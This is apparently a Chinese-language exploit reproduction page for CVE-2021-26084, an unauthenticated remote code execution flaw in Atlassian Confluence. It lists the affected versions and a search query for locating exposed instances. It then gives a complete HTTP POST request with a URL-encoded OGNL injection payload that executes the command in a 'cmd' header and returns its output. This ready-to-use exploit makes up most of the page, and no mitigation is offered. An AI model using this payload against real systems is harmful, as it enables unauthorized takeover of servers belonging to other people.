


Atlassian Confluence doenterpagevariables.action 远程命令执行漏洞 CVE-2021-26084¶
漏洞描述¶
Atlassian Confluence 存在远程代码执行漏洞，攻击者在无需认证，即可构造恶意请求，造成OGNL表达式注入，从而执行任意代码，控制服务器。
漏洞影响¶
Atlassian Atlassian Confluence < 7.4.11
Atlassian Atlassian Confluence < 7.11.6
Atlassian Atlassian Confluence < 7.13.0
Atlassian Atlassian Confluence < 6.13.23
Atlassian Atlassian Confluence < 7.12.5
网络测绘¶
app="ATLASSIAN-Confluence"
漏洞复现¶
登录页面

发送请求包
POST /pages/doenterpagevariables.action HTTP/1.1
Host:
Connection: keep-alive
Content-Length: 599
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=3E654B6F4ADDF325CA2203596BD0115C
cmd: id
queryString=%5Cu0027%2B%23%7B%5Cu0022%5Cu0022%5B%5Cu0022class%5Cu0022%5D.forName%28%5Cu0022javax.script.ScriptEngineManager%5Cu0022%29.newInstance%28%29.getEngineByName%28%5Cu0022js%5Cu0022%29.eval%28%5Cu0022var+c%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getRequest%28%29.getHeader%28%5Cu0027cmd%5Cu0027%29%3Bvar+x%3Djava.lang.Runtime.getRuntime%28%29.exec%28c%29%3Bvar+out%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getResponse%28%29.getOutputStream%28%29%3Borg.apache.commons.io.IOUtils.copy%28x.getInputStream%28%29%2Cout%29%3Bout.flush%28%29%3B%5Cu0022%29%7D%2B%5Cu0027
